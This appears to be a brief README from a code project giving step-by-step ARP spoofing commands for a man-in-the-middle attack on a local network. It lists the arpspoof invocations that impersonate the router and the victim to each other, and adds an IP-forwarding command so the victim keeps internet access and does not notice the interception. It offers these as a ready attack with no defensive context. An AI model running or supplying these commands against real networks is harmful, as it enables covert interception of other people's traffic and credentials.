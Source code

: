 ARP Spoofing is One of The Best Wireless Attack on Local Network . 

I AM ROUTER:

arpspoof -i eth0 -t 192.168.0.1 192.168.0.103

I AM Victim :

arpspoof -i eth0 -t 192.168.0.103 192.168.0.1

ENABLING PORT FORWARDING :

If you miss this step then the Victim Internet Will be Goes Off and He Know That Something is Wrong With Wireless Network

echo '1' > /proc/sys/net/ipv4/ip_forward

Check the Project Here 

https://repl.it/@AdilShehzad7/ARP-Spoofing

